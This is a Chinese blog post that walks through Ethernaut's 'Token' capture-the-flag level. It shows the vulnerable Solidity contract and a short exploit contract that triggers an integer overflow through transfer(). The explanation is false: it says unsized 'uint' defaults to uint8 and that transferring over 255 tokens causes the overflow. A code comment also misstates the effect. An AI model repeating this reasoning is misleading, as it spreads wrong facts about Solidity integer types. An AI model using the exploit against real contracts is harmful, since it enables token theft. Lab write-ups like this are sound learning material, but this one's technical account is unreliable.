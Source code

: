 ```yaml
---
title: 'uint整形溢出'
date: 2022-12-9 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第五关Token  思路与POC

##### 目标: 初始分配20token 想办法增加

#### 先看代码:

代码逻辑上是没有问题的,标准ERC20的实现.那么问题在哪里呢:question:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  //注意看数据类型,在solidity中uint如果不指定数据类型存储范围的话默认是uint8
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

poc思路:point_right:：既然总共的token供应单位是uint8的话,那么只需要transfer超过255的token就会数据溢出

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Token.sol";

contract tokenHack{

  Token token = Token(0x4532122Ab6D63e095A220ed37F77E1752B88b8C3);
  //只需要转账的token数量超过255即构成数据溢出,效果就会转账255的token到指定地址,不管转出地址有多少token
  function overflow() public {
      token.transfer(0x0e21d35681E679C33dD49731935FB81F1aee8C05,256);

  }
}
```

